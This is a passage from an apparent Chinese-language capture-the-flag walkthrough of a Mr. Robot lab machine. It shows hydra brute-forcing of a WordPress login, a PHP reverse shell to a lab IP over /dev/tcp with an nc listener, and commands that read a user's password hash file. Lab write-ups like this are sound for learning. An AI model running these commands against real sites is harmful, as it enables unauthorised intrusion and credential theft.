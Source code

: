 也可以尝试`hydra`爆破：

```bash
hydra -L fsocity.dic  -p test  192.168.16.146 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"
# 查找用户名
```

![image-20240222122411756](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402221403864.png)

```shell
# 直接爆破密码 我偷偷把密码放前面来了，不然密码在第八十多万位
hydra -vV -l elliot -P fsocity.dic 192.168.244.131 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' -t 64
```

![image-20240222125226945](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402221403865.png)

尝试登录：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402221403866.png" alt="image-20240222125404605" style="zoom:50%;" />

上传一个远程反向shell连接脚本（插件上传或者放进主题）

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.244.128/1234 0>&1'");
?>
```

```shell
# kali
sudo nc -lvp 1234
```

![image-20240222130131093](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402221403867.png)

![image-20240222130216632](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402221403868.png)

## 提权

```bash
ls -la /home/robot
cat /home/robot/password.raw-md5
cat /home/robot/key-2-of-3.txt  
```

![image-20240222130432465](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402221403869.png)

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402221403870.png" alt="image-20240222135154833" style="zoom:50%;" />

解密得到密码，尝试登录：

```text
abcdefghijklmnopqrstuvwxyz
```
